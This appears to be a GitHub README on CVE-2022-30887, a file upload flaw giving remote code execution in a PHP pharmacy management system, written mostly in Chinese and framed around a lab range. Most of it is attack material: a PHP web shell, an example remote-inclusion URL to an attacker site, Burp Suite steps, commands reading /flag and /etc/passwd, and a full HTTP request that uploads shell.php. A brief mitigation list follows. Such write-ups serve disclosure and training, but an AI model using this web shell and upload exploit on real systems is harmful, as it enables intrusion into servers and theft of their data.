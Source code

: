 # CVE-2022-30887

## Description

多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的, 该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。

该软件有助于为药房业务创建一个综合数据库，并根据到期、产品等各种参数提供各种报告。

该 CMS(Pharmacy Management System v1.0) 中的 `php_action/editProductImage.php` 存在任意文件上传漏洞(File Inclusion Attack)，进而导致任意代码执行(RCE)。

## What is a File Inclusion Attack

File Upload vulnerabilities are usually a vulnerability that allows a script to run. It works when we upload the file to the server and enter a command on the uploaded file. File upload vulnerabilities are divided into two types;

- LFI (Local File Inclusion)
- RFI (Remote File Inclusion)

### LFI (Local File Inclusion)

This vulnerability occurs when the local files on the server include the file retrieved from the user. values received from the user must be sterilized.

Example of LFI (Local File Inclusion) ;

```
<?php
if($_REQUEST['s'])
 {  
 system($_REQUEST['s']);
 } 
 else
  phpinfo();?>
```

### RFI (Remote File Inclusion)

This vulnerability works when the attacker upload malware from a remote server.

Example of RFI (Remote File Inclusion) ;

`www.victim_site.com/abc.php?test=http://www.attacker_site.com/attack_page`

## Explanation of exploit

1. 这里使用春秋云镜的靶场 https://yunjing.ichunqiu.com/cve/detail/748
2. 打开站点并用 Burp Suite 捕获请求，并将请求 Send to Repeater
  ![](images/CVE-2022-30887-1.png)
  ![](images/CVE-2022-30887-2.png)
3. 在 Repeater 中写入如下 PoC （注意修改Host）发送后查看 Response 有 Sucess 字样则为上次成功， 文件被上传到 `/assets/myimages/` 目录下
  ![](images/CVE-2022-30887-3.png)
4. 上传 shell.php 后在浏览器中即可执行任何命令，如获取 flag 为 `http://eci-2ze1l9hzv0tz04yrt7rl.cloudeci1.ichunqiu.com/assets/myimages/shell.php?s=cat%20/flag`
  ![](images/CVE-2022-30887-4.png)
5. 执行其他命令如 `cat /etc/passwd`
  ![](images/CVE-2022-30887-5.png)
  
## PoC
```
POST /php_action/editProductImage.php?id=1 HTTP/1.1
Host: eci-2zegbcou4c05rxuhfujv.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------208935235035266125502673738631
Content-Length: 556
Connection: close
Cookie: PHPSESSID=t1jo541l52f76t9upiu0pbqv0c
Upgrade-Insecure-Requests: 1

-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="old_image"


-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: image/jpeg

<?php
if($_REQUEST['s']) {
  system($_REQUEST['s']);
  } else phpinfo();
?>
</pre>
</body>
</html>
-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="btn"


-----------------------------208935235035266125502673738631--
```

## Mitigation
- ensure you only accept characters such as `a-Z0-9` and do not allow `..` or `/` or `%00` (null byte)
- Be ensure `allow_url_include flag` must be off
- acording to owasp 10 Remediation; "Application can maintain a *white list of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path"

## Refer

- https://nvd.nist.gov/vuln/detail/CVE-2022-30887
- https://github.com/MuallimNaci/CVE-2022-30887
